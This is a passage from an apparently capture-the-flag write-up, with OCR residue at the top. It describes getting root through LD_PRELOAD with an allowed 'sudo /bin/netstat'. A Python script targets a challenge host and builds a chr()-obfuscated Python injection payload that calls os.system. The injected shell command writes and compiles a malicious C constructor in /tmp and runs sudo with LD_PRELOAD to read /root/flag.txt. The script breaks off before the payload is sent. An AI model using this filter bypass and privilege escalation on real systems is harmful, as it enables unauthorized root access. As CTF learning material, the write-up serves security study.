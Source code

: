 ```bash
```

Creating a shared library exploit using LD_PRELOAD to access root user secrets.

The exploit code  needs to be compiled on the target system where gcc might be available. I will now modify the exploit script to perform the following steps on the remote server:
I Wrote  a C code for the shared library (preload.c) to a temporary directory (/tmp).
and Compiled  the C code into a shared library (preload.so) using gcc in the temporary directory.

Executed the allowed *sudo* command *(/bin/netstat)* with the *LD_PRELOAD* environment variable pointing to our compiled shared library. This  triggerred our code within the shared library to run with root privileges and retrieve the flag from the root directory. Let's try reading /root/flag.txt first based on the previous challenge pattern
Creating and compiling a shared library exploit on the remote system to access root user secrets.
```bash
#!/usr/bin/env python3
import socket
import sys

HOST = "exp.cybergame.sk"
PORT = 7002

def build_payload(command):
    """Builds the payload using chr() to bypass filters."""
    import_key = "+".join([f"chr({ord(c)})" for c in "__import__"])
    os_module = "+".join([f"chr({ord(c)})" for c in "os"])
    system_func = "+".join([f"chr({ord(c)})" for c in "system"])
    cmd_str = "+".join([f"chr({ord(c)})" for c in command])
    payload = f"getattr(__builtins__.__dict__[{import_key}]({os_module}), {system_func})({cmd_str})"
    return payload

def main():
    # Create a multi-step command to:
    # 1. Check if gcc is installed
    # 2. Create the preload.c file in /tmp
    # 3. Compile it if gcc exists
    # 4. Use LD_PRELOAD with sudo netstat
    
    command = """
    which gcc || echo "gcc not found";
    echo '#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void __attribute__((constructor)) init() {
    unsetenv("LD_PRELOAD");
    system("cat /root/flag.txt");
}' > /tmp/preload.c;
    if which gcc > /dev/null; then
        gcc -shared -fPIC /tmp/preload.c -o /tmp/preload.so && 
        echo "Compiled successfully" && 
        sudo LD_PRELOAD=/tmp/preload.so /bin/netstat;
    else
        echo "Cannot compile, looking for alternative methods";
        # Try to find the flag directly
        find /root -type f -name "flag*" 2>/dev/null;
        # Try to use other methods to read root files
        sudo /bin/netstat -help | grep -i file;
    fi
    """

    payload = build_payload(command)

```